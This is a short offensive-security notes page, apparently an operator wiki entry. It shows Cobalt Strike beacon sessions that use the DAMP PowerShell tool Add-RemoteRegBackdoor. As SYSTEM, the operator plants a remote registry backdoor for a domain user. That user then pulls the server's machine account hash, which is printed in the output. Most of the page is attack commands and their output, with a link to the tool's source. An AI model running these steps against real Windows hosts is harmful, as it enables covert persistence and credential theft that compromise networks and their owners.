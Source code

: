 
## [[Remote Registry]]
`Add-RemoteRegBackdoor` can be run locally on a compromised machine, or remotely with credentials.
```beacon
beacon> run hostname
srv2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Add-RemoteRegBackdoor -Trustee EDU\john
ComputerName BackdoorTrustee
------------ ---------------
SRV2        EDU\john
```

```beacon
beacon> getuid
[*] You are EDU\john

beacon> ls \\srv2\c$
[-] could not open \\srv2\c$\*: 5

beacon> powershell Get-RemoteMachineAccountHash -ComputerName srv2

ComputerName MachineAccountHash              
------------ ------------------              
srv2        5d0d485386727a8a92498a2c188627ec
```


```meta
requirements: 
results: 
opsec: 
oss: 
source: https://github.com/HarmJ0y/DAMP/blob/master/Add-RemoteRegBackdoor.ps1
description: Implements a new remote registry backdoor that allows for the remote retrieval of a system's machine account hash.
undetected: 
```

